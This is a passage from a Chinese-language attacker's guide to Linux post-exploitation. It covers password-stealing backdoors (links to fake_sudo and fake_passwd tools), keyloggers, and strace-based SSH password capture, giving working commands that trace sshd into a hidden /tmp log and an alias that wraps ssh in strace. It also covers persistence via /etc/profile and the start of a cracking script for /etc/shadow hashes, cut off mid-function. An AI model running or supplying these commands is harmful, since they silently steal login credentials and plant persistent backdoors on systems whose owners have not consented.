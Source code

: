 https://github.com/aplyc1a/toolkits/tree/master/0x04 持久化/Linux/口令窃取后门/fake_sudo

https://github.com/aplyc1a/toolkits/tree/master/0x04 持久化/Linux/口令窃取后门/fake_passwd

### 3.2 键盘记录器

大部分键盘记录器只对带有GUI界面的Linux有效并且要求输入文本要在图形化页面里。实际中，对Linux部键盘记录器很少见。

### 3.3 strace后门

使用strace可以偷取SSH密码。具体可分两种情况：

一种时监听系统内sshd服务收到的所有流量，从中可以提取到密码信息。

另一种是通过alias后门、hash后门、PATH优先级等方式结合strace劫持系统内的ssh命令，从中可以提取到密码信息。为了实现持久化，会将劫持命令持久化到/etc/profile、/etc/bashrc等文件中。

#### 3.3.1 strace-sshd

这是上面提到的第一种后门。常见的命令如下。

```shell
(strace -f -F -P `ps aux|grep "sshd -D"|grep -v grep|awk '{print $2}'` -t -e trace=read,write -s 32 > /tmp/.sshd.log 2>&1 & )
```

记录量往往很大，可以grep一下。

```shell
grep -E 'read\(6,".+\\0\\0\\0\\.+")' /tmp/.sshd.log
```



#### 3.3.2 strace-ssh

如下面一个alias后门。或将strace命令写入shell脚本进而部署成hash后门或PATH优先级后门。

```shell
alias ssh='strace -o /tmp/sshwd-`date '+%d%h%m%s'`.log -e read -s2048 ssh'
```



### 3.4 OpenSSH后门

专门写了一篇[OpenSSH后门制作](https://github.com/aplyc1a/blogs/blob/master/OpenSSH后门制作.md)，使用定制化的OpenSSH后门，其稳定性与隐蔽性较前面的方案都高。

## 4 凭据破解

Linux下的凭据破解主要针对/etc/shadow，网上有很多现成的脚本，当然也可以放到cmd5.com上试着查查。下面是[网上的某python3爆破脚本](https://www.cnblogs.com/Cl0ud/p/14382258.html?ivk_sa=1024320u)。

```python
import hashlib,math


def rstr_sha512(text: bytes) -> bytes:
    sha512 = hashlib.sha512()
    sha512.update(text)
    return sha512.digest()

def _extend(source: bytes, size_ref: int) -> bytes :
    extended = b""
    for i in range(math.floor(size_ref/64)):
        extended += source
    extended += source[:size_ref % 64]
    return extended

def _sha512crypt_intermediate(password: bytes,salt: bytes) -> bytes:
    #digest_a = rstr_sha512(password + salt)
```